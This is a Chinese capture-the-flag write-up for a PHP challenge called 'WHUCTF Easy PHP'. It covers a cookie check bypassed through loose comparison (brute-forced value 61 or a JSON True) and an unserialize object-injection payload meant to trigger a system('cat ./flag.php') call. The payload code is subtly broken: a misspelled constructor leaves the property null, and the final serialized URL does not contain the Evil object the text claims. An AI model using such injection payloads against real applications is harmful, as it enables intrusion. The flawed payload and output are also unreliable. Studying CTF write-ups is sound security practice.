 # WHUCTF Easy PHP

绕过 + 反序列化

## Analysis

### Source Code

	<?php
	error_reporting(0);
	include 'flag.php';
	highlight_file(__FILE__);
	
	if (!$_COOKIE['admin']) {
	    exit("\nNot authenticated.\n");
	}
	
	if (!preg_match('/^{"hash": [\w\"]+}$/', $_COOKIE['admin'])){
	    exit("还看不懂正则表达式? 还不快去百度! \n");
	}
	$session_data = json_decode($_COOKIE['admin'], true);
	
	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}
	
	class WHUCTF {
	    protected $stu;
	    function __construct() {
	        $this->stu = new Study();
	    }
	    function __destruct() {
	        $this->stu->action();
	    }
	}
	class Study {
	    function action() {
	        echo "CTF 真好玩~";
	    }
	}
	class Evil {
	    function action() {
	        system('cat ./flag.php');
	    }
	}
	
	echo "这么明显了,你懂我意思吧";
	unserialize($_GET['whuctf']);

这里有两个绕过点：

1）首先构造合适的 `Cookie:admin={"hash": xxxx}`，
这里的`xxxx`必须为字母数字下划线组成的字符串，
但是这个`xxxx`的值需要与`md5($flag)`弱相等。

分析下面的源码：

	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}

结合提示：

	给你个提示吧 
	00111110000000110000000101011110
 
它给的提示其实是将每一位右移6之后得到的结果：`00111110000000110000000101011110`，其中的`echo(ord(MD5($flag)[$i]) >> 6);`
输出flag md5每一位右移6位后的结果，分析一下：

若是字母输出1，数字输出0，我们可以判断出flag md5值前2位小于64为数字。再通过php弱类型比较：

	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}

利用burp从0到99爆破，在61就发现绕过了这一限制，所以最终Cookie设置为：`Cookie:admin={"hash": 61}`

绕过第一关！！！

### 非预期：

这上面是一个预期解，还有一个非预期解，由于正则过滤不严，本来hash值的内容只应允许输入md5包含的字符即\[0-9a-f\]

若输入值为`admin={"hash": True}`，使用json_decode可以将hash值解析为布尔值True，而我们知道php弱类型特性：

![](https://raw.githubusercontent.com/f61d/challenges/master/web/PHP/WHUCTF-EasyPHP/index_files/whuctf_easyphp.png)

因此也可以通过这个部分绕过。

## unserialize

### 接下来就是构造反序列化：

	class WHUCTF {
	    protected $stu;
	    function __construct() {
	        $this->stu = new Study();
	    }
	    function __destruct() {
	        $this->stu->action();
	    }
	}
	class Study {
	    function action() {
	        echo "CTF 真好玩~";
	    }
	}
	class Evil {
	    function action() {
	        system('cat ./flag.php');
	    }
	}
	
	echo "这么明显了,你懂我意思吧";
	unserialize($_GET['whuctf']);

反序列化原理是你正常序列化出来是：`O:6:"WHUCTF":1:{s:6:" * stu";O:5:"Study":0:{}}`

然后改成：`O:6:"WHUCTF":1:{s:6:" * stu";O:4:"Evil":0:{}}`，再`urlencode`一下。

### Payload
	<?php
	class WHUCTF {
		protected $stu;
		function __constsuct(){
			$this->stu = new Evil();
		}
		function __destruct(){
			$this->stu->action();
		}
	}
	class Study{
		function action(){
		echo "CTF 真好玩~";
		}
	}
	class Evil{
		function action(){
			system('cat./flag.php');
		}
	}
	$a = new WHUCTF();
	echo serialize($a);				// O:6:"WHUCTF":1:{s:6:"*stu";N;}
	echo urlencode(serialize($a));	// O%3A6%3A%22WHUCTF%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00stu%22%3BN%3B%7D

结果：

	dmsj.php?whuctf=O%3A6%3A%22WHUCTF%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00stu%22%3BN%3B%7D
